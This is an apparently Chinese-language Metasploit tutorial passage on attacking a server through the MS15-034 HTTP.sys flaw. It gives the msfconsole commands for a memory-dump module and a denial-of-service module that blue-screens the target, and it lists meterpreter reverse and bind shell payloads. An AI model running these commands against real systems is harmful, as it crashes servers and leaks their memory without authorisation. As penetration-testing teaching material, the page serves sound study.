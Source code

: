 > Ok，咱们启动msf利用此漏洞攻击目标服务器。

### cmd下msfconsole进入msf，输入
```
search MS15-034 (查询此漏洞的利用模块)
```
### 好，我们选用第二个辅助攻击模块。

> Use+模块名称
```
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump   //调用模块
```
```
set RHOST ip  //设置攻击的目标ip
```
```
exploit  //执行漏洞攻击
```

> <h2>PS:如果成功，目标就会蓝屏</h2>
代码如下：
```
use auxiliary/dos/http/ms15_034_ulonglongadd  //设置辅助攻击模块

set rhosts ip  //设置目标机ip

set threads 10  //设置线程数

Exploit  //攻击
```


## 常用代码说明

### Payload

#### Stager中几种常见的payload


```
windows/meterpreter/bind_tcp       #正向连接
windows/meterpreter/reverse_tcp    #反向连接，常用
windows/meterpreter/reverse_http   #通过监听80端口反向连接
windows/meterpreter/reverse_https  #通过监听443端口反向连接
```


> `PoC `是` Proof of Concept` (概念验证) 通常是内含无害的漏洞代码，比如弹出一个计算器什么的

> `Exp`  是 `Exploit` (漏洞利用) 通常是内含恶意的漏洞代码
可以理解为提权攻击。

> `exp在msf中来讲`，其实本身并没有恶意行为，只是它会调用恶意payloads来进行测试，

> search的功能可以让我们随时在msf的海量脚本中拿到我们想要的。

```
show optinos                 \\显示选项
```